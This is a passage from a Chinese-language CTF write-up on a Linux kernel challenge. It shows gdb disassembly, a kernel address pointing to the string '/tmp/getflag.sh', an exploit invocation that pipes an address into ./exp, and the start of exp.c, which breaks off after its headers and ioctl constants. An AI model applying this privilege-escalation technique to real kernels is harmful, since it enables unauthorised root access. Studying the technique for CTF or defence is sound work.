 ```

gdb-peda$ x/28i 0xffffffff810833e0                                
   0xffffffff810833e0:  push   rbp
   0xffffffff810833e1:  mov    rbp,rsp
   0xffffffff810833e4:  push   r15
   0xffffffff810833e6:  push   r14
   0xffffffff810833e8:  push   r13
   0xffffffff810833ea:  mov    r13,rsi
   0xffffffff810833ed:  push   r12
   0xffffffff810833ef:  movzx  r12d,dil
   0xffffffff810833f3:  push   r10
   0xffffffff810833f5:  lea    r10,[rbp+0x10]
   0xffffffff810833f9:  push   rbx
   0xffffffff810833fa:  mov    ebx,edi
   0xffffffff810833fc:  sub    rsp,0xb8
   0xffffffff81083403:  mov    QWORD PTR [rbp-0x50],rdx
   0xffffffff81083407:  mov    QWORD PTR [rbp-0x48],rcx
   0xffffffff8108340b:  mov    QWORD PTR [rbp-0x40],r8
   0xffffffff8108340f:  mov    QWORD PTR [rbp-0x38],r9
   0xffffffff81083413:  mov    rax,QWORD PTR gs:0x28
   0xffffffff8108341c:  mov    QWORD PTR [rbp-0x68],rax
   0xffffffff81083420:  xor    eax,eax
   0xffffffff81083422:  test   dil,dil
   0xffffffff81083425:  jne    0xffffffff810835a6
   0xffffffff8108342b:  xor    r15d,r15d
   0xffffffff8108342e:  cmp    BYTE PTR [rip+0x11beeeb],0x0        # 0xffffffff82242320
   0xffffffff81083435:  jne    0xffffffff8108345e
   0xffffffff81083437:  mov    rcx,QWORD PTR [rbp-0x68]
   0xffffffff8108343b:  xor    rcx,QWORD PTR gs:0x28
   0xffffffff81083444:  mov    eax,r15d
gdb-peda$ x/s 0xffffffff82242320
0xffffffff82242320:     "/tmp/getflag.sh"

```

#### exp.c

exp来自17学长，在测试这个`fastbin`分配机制的时候我试了下改size，0x700、0x600和0x900均不行，最后是0x800和0x400成功，挠头.jpg，找了下也没有讲的很好的slab/slub分配机制的文章，回头再说好了。

使用的时候使用管道作为输入`printf '\x20\x23\x24\x82\xff\xff\xff\xff' | ./exp`，执行完exp之后执行/tmp/ll再`cat /tmp/flag`即可。

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/ioctl.h>
#include <string.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <sys/mman.h>
#include <errno.h>
#include <stdlib.h>
#include <signal.h>
#include <string.h>
#include <sys/syscall.h>
#include <stdint.h>
#define CREATE 0x73311337
#define SHOW 0xDEADBEEF
#define DELETE 0x13377331


```
